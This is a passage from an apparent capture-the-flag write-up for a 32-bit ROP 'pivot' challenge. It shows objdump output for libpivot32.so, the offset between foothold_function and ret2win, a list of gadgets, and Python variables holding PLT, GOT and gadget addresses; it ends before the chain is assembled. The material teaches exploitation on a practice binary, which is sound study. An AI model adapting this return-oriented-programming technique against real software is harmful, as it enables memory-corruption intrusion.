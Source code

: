```bash
$ objdump -S libpivot32.so | grep foothold_function
00000770 <foothold_function>:

$ objdump -S libpivot32.so | grep ret2win
00000967 <ret2win>:
```

Subtracting the two values gives the offset as `0x1f7`

### Finding appropriate gadgets

To add offsets into registers and load data from memory, we need gadgets. Here are the gadgets used -

1. `pop ebx ; ret` - This is used to load a value from the top of the stack to `EBX`.

2. `add eax, ebx ; ret` - This will add the value of `EBX` and `EAX` and store it in `EAX`

3. `mov eax, dword ptr [eax] ; ret` - This loads the value stored at the value in `EAX`. In simple terms, it uses the value in `EAX` as an address and the value at that address is moved into `EAX`

4. `call eax` - This will call the address in `EAX` (should be the address of a function)

### Building the ROP chain

Before building the ROP chain, the PLT and GOT entries of `foothold_function`, the various gadgets found and the offset are stored in variables.

```python
# dynamically imported function - foothold_function
foothold_plt = p32(0x80485f0)
foothold_got = p32(0x804a024)

# gadgets
# pop eax ; ret
pop_eax = p32(0x080488c0)

# call eax
call_eax = p32(0x080486a3)

# mov eax, dword ptr [eax] ; ret
eax_val = p32(0x080488c4)

# xchg eax, esp ; ret
xchg = p32(0x080488c2)

# pop ebx ; ret
pop_ebx = p32(0x08048571)

# add eax, ebx ; ret
add = p32(0x080488c7)

offset = p32(0x1f7)
```
